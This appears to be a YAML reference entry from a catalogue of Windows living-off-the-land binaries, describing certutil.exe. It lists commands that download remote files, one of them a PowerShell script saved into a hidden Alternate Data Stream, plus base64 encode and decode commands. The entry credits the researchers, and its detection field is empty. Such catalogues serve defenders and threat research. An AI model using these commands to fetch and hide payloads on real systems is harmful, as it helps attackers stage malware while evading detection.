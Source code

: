 ```yaml
---
functions:
  download:
    -
      Name: Certutil.exe
      Description: Download, Add ADS, Decode, Encode
      Author: ''
      Created: '2018-05-25'
      Categories:  |

      Commands: |
          Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
          Description: Download and save 7zip to disk in the current folder.
          Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
          Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
          Command: certutil -encode inputFileName encodedOutputFileName
          Description: Command to encode a file using Base64.
          Command: certutil -decode encodedInputFileName decodedOutputFileName
          Description: Commands to decode a Base64 encoded file.
      Full_Path:
          c:\windows\system32\certutil.exe
          c:\windows\sysWOW64\certutil.exe
      Code_Sample: |

      Detection: |
          
      Resources: |
          https://twitter.com/Moriarty_Meng/status/984380793383370752
          https://twitter.com/mattifestation/status/620107926288515072
      Notes: Thanks to Matt Graeber - @mattifestation, Moriarty - @Moriarty2016

---
```


